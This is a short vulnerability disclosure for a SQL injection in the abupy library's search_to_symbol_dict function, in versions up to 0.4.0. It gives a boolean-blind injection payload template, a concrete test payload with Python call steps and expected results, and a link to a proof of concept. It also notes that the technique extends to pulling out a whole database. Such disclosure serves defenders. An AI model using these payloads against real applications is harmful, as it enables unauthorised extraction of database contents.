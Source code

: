 Vulnerability Product: abupy <= v0.4.0  
Vulnerability version: <= v0.4.0  
Vulnerability type: SQL Injection  
Vulnerability Details:  
Vulnerability location: abupy.MarketBu.ABuSymbol.search_to_symbol_dict

SQL Injection in abupy <= v0.4.0 causes arbitrary SQL code execution 

## [](#header-3)PROVE: 

Payload: ```"us10101' union select case when {CODE YOU WANNA EXEC, RETURN TRUE OR FALSE} then 'usJASNW' else 'usTROVW' end where ''='"```  
Test_payload: ```"us10101' union select case when sqlite_version() = '3.31.1' then 'usJASNW' else 'usTROVW' end where ''='"```  
Usage: ```abupy.MarketBu.ABuSymbol.search_to_symbol_dict("us10101' union select case when sqlite_version() = '3.31.1' then 'usJASNW' else 'usTROVW' end where ''='")```  

Firstly download abupy latest version(v0.4.0)
```
pip install abupy
```

Secondly import abupy.MarketBu.ABuSymbol, and call abupy.MarketBu.ABuSymbol.search_to_symbol_dict with test_payload as argument
```py
import abupy.MarketBu.ABuSymbol
print(abupy.MarketBu.ABuSymbol.search_to_symbol_dict("us10101' union select case when sqlite_version() = '3.31.1' then 'usJASNW' else 'usTROVW' end where ''='"))
```
(abupy.MarketBu.ABuSymbol.search_to_symbol_dict is a functional api which author mentioned in the code annotation of the function, It is legal and normal for users and programmers to call this function, proof: https://github.com/bbfamily/abu/blob/master/abupy/MarketBu/ABuSymbol.py -> line: 200 code annotation, so users can easily trigger this vulnerability)

Finally you can find the result is `{'JASNW': 'JASON INDS INC'}`  
if you replace `sqlite_version() = '3.31.1'` with `sqlite_version() != '3.31.1'`  
you can find the result is `{'TROVW': 'TROVAGENE INC'}`  
Of course, you can also fill in other relational expressions here to verify the vulnerability, such as `1 = 1`, `1 != 1`

proved the result is determined by payload  
proved sql code execution  

POC: https://github.com/Leeyangee/leeya_bug/blob/main/abupy_poc.py

## [](#header-3)HARM: 

Programmers may mistakenly use abupy.MarketBu.ABuSymbol.search_to_symbol_dict in this library as part of the backend of the web application, allowing attackers to call the function and return sensitive database data.  

The above payload is just an example, attackers can construct a complex payload to obtain complete database sensitive information in a way similar to sql blind injection

discovered by leeya_bug
